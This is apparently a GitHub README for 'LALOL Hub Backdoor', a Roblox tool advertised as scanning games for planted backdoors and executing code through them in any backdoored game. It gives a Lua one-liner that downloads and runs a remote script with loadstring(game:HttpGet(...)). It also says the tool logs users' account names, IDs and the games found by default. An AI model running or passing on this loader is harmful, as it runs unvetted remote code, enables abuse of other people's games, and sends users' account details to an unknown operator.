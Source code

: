 temporarily not working

# LALOL Hub Backdoor
Backdoor scanner (and executor) for roblox games

```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
```

![](https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/image.png)

# Features
1. Fast 
2. Nice UI and UX
3. Works in all backdoored games

#
We logging the account name and account ID and the backdoor games. If u want disable logs add `_G.LALOL_Hub_Backdoor_Logs_Disabled=true` string before loadstring
